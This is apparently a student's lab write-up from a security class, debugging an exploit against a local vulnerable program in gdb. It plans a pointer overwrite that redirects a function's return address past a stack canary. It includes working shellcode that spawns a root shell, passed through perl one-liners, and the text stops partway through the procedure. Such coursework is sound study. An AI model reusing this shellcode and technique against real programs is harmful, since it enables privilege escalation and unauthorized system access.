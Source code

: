 **3. Overwriting execl argument**
This is where I'm stuck, the address we make our second *strncpy* write to isn't writable, so we get a SIGSEGV.  In theory we would need to simply do this:
```console
$ (gdb) run "`perl -e 'print "\x90"x30 . "\x58\x20\x40"'`" /bin/sh
Starting program: /home/admin/SecurityClass/Tutorial-06/6.2/vuln "`perl -e 'print "\x90"x30 . "\x58\x20\x40"'`" /bin/sh
p=bffff28e       -- before 1st strcpy
p=402058         -- after 1st  strcpy

Program received signal SIGSEGV, Segmentation fault.
```

### New idea :bulb: :bulb:
It seems like we can not edit the part of the memory where our "back_to_vul" is writtenn, we then need another strategy.  We know that the stack is protected by a canary, this means that we cannot do a simple buffer overflow containing shellcode as we did before.  The new idea is the following:

 - Overwrite the value of the pointer `p` so that it points to register `$eip`.
 - Overwrite the value stored in `$eip` to change the return value.
 - Make that return value point to a third argument we passed to our program, which contains our magical shellcode.
 
### Step by step :walking:
**1. Arguments** Here we are going to play with the stack of the program itself, needing to access its arguments.  This means that if we change the size of the elements we pass to the program, our stack will be modified, and the address we need to access its content too.  Therefore, I will start by giving my program all the arguments it will needs (at least the right number), and only modify the values passed themself later on.  
 - Our first argument will be very similar to what we did before, 30 characters and and address: `perl -e 'print "\x90"x30 . "\x42"x4'`.  
 - The second argument is simply an address: `perl -e 'print "\x60\x61\x62\x63"'`.  
 - The shellcode we are goind to use is the same as in the previous practical session, it can be generated and passed to the program this way: `perl -e 'print "\x90"x21 . "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"'`.  This our third argument.

**2. Finding $eip location in stack**  The address we want our first argument to write in `p` is the one of the return address of the function *f*.  To check find it I first checked what was the next instruction after the call to *f* in the *main* usin disass.  Then I looked up in the stack at which address is this value stored, this is the value I will need to pass in my first argument.
```console
$ (gdb) disass main
Dump of assembler code for function main:
   ...
   0x00401285 <+34>:    call   0x4011d9 <f>
   0x0040128a <+39>:    add    $0x10,%esp
   ...
End of assembler dump.
(gdb) b *main+34
Breakpoint 1 at 0x401285
$ (gdb) run `perl -e 'print "\x40"x30 . "\x42"x4 . " " . "\x60\x61\x62\x63" . " " . "\x90"x21 . "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"'`

Breakpoint 1, 0x00401285 in main ()
$ (gdb) disass f
Dump of assembler code for function f:
   ...
   0x004011fe <+37>:    call   0x401030 <printf@plt>
   ...
   0x00401215 <+60>:    call   0x401040 <strcpy@plt>
   ...
```